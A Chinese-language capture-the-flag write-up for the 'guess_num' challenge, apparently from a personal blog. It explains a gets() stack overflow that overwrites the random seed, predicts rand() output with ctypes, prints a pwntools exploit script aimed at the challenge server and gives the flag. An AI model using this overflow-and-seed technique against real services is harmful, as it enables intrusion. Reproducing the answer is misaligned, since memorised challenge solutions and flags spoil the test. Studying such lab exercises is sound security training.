

# guess_num

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=8da37b63-3819-4324-bc1c-770097693d4c_2)

这题很简单，我差点没做出来的原因也非常离谱。

看看main。



目标是PrintFlag，条件是赢10轮猜数字游戏。在ida里逻辑很清楚，但是在ghidra里就有点奇怪了，胜利的条件是iVar1 % 6 == -1。我在python里试了一会，没试出来哪个数跟6的余数是-1的，包括负数。c语言里没有试，不过iVar1来自rand函数，rand我记得是不会随机出负数的。只能看wp才知道，原来正确的逻辑是iVar1=rand()%6+1。看来是伪代码出错，正确的做法应该是看汇编。我哪里会，也不想学，毕竟很快就有ida可以用了！

接下来就简单了。22行有个很明显的gets，存在栈溢出。rand使用前需要设定种子，相同种子的rand每次运行的结果都是一样的。此处使用的种子为local_18，图左边可以发现local_18与local_38差0x20，意味着只要覆盖0x20位就到local_18了。我们可以将其覆盖为已知运行结果的种子，接着就能随意通关了。python有个模块ctypes，可以调用指定libc下的c库函数。但是我没有libc，只能把结果在有libc上的机器打出来然后再在本机使用结果。

```python
from ctypes import *
libc = cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
libc.srand(0)
for i in range(10):
    print(f"{libc.rand()%6+1},",end='')
```

直接上脚本。

```python
from pwn import *
p=remote("61.147.171.105",56224)
payload=b'a'*32 + p64(0) 
nums=[2,5,4,2,6,2,5,1,4,2]
p.sendlineafter("Your name:",payload)
for i in range(10):
    p.sendlineafter("Please input your guess number:",str(nums[i]))
print(p.recvall())
```

最开始我没有发送payload，导致怎么样都不成功。唉菜果然是有原因的。

- ### Flag
  > cyberpeace{7e7fed47a418d32ede749a106d3bd70e}